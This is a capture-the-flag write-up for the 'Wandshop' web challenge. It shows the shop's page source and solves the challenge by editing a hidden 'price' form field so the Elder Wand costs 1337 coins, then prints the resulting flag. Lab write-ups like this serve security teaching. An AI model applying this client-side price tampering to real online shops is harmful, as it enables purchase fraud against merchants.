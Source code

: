 ```yaml
---
layout: menu
title: "Wandshop (web 100)"
---
```


![Wandshop (100 pts)](./screenshots/Wandshop.png)

---

## CHALLENGE INFO
- __CHALLENGE LINK__: https://wandshop.tghack.no/
- __LANDING PAGE__:

  ![homepage](./screenshots/Wandshop_home.png)

- __ASSUMED OBJECTIVE__: Increase a wand's __*SKU*__ or decrease __*Elder Wand's cost*__

---

## Step 1 : Examine the Page Souce

- Page Source:
  ```html
  <html>
  <head>
      <title>OllyDbg Wands</title>
  </head>
  <body>


      <h1>Your credit: 1337 coins</h1>
      <h1>Shopping cart:</h1>
      <ul>
      
          <form action="/" method="post">
              <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
              <input type="hidden" name="action" value="reset"/>
              <button>Reset</button>
          </form>
      <form action="/" method="post">
          <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
          <input type="hidden" name="action" value="order"/>
          <button>Send order</button>
      </form>
      </ul>
      <h1>Items</h1>
      <div style="display: flex; flex-direction: row;">
            
              <div style="width: 10em; height: 10em; text-align: center; background-color: lightgray; margin: 0.5em;">
                  <strong>Horse-hair wand</strong><br/>
                  SKU: 1<br/>
                  Price: 123.00 coins
                  <form action="" method="post">
                      <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
                      <input type="hidden" name="action" value="add_cart"/>
                      <input type="hidden" name="sku" value="1"/>
                      <input type="hidden" name="price" value="123.00"/>
                      <button type="submit">Add to cart</button>
                  </form>
              </div>
           
              <div style="width: 10em; height: 10em; text-align: center; background-color: lightgray; margin: 0.5em;">
                  <strong>Dragon-bone wand</strong><br/>
                  SKU: 2<br/>
                  Price: 323.00 coins
                  <form action="" method="post">
                      <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
                      <input type="hidden" name="action" value="add_cart"/>
                      <input type="hidden" name="sku" value="2"/>
                      <input type="hidden" name="price" value="323.00"/>
                      <button type="submit">Add to cart</button>
                  </form>
              </div>
            
              <div style="width: 10em; height: 10em; text-align: center; background-color: lightgray; margin: 0.5em;">
                  <strong>Troll-snot wand</strong><br/>
                  SKU: 3<br/>
                  Price: 723.00 coins
                  <form action="" method="post">
                      <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
                      <input type="hidden" name="action" value="add_cart"/>
                      <input type="hidden" name="sku" value="3"/>
                      <input type="hidden" name="price" value="723.00"/>
                      <button type="submit">Add to cart</button>
                  </form>
              </div>
            
              <div style="width: 10em; height: 10em; text-align: center; background-color: lightgray; margin: 0.5em;">
                  <strong>Elder Wand</strong><br/>
                  SKU: 321<br/>
                  Price: 5000.00 coins
                  <form action="" method="post">
                      <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
                      <input type="hidden" name="action" value="add_cart"/>
                      <input type="hidden" name="sku" value="321"/>
                      <input type="hidden" name="price" value="5000.00"/>
                      <button type="submit">Add to cart</button>
                  </form>
              </div>
          
      </div>

  </body>
  </html>
  ```
  __Notes__:
  - You have 1337 coins as credits
  - Each wand's attriutes are passed as *hidden input* in individual forms
  - You __can__ change the wand's price but not your credits

---

## Step 2 : Purchase the Elder Wand

1. Change the __*Elder Wand's price*__ to at most __1337 coins__
   ```html
   <div style="width: 10em; height: 10em; text-align: center; background-color: lightgray; margin: 0.5em;">
       <strong>Elder Wand</strong><br/>
       SKU: 321<br/>
       Price: 5000.00 coins
       <form action="" method="post">
           <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
           <input type="hidden" name="action" value="add_cart"/>
           <input type="hidden" name="sku" value="321"/>
           <input type="hidden" name="price" value="1337.00"/>
           <button type="submit">Add to cart</button>
       </form>
   </div>
   ```
2. Press __Add to cart__
   
   ![Add to cart](./screenshots/Wandshop_cart.png)

3. Press __Send order__
   ```
   Yay! You ordered an Elder Wand. FLAG: TG19{Elder wand iz best wand}
   ```

---

## FLAG : __TG19{Elder wand iz best wand}__
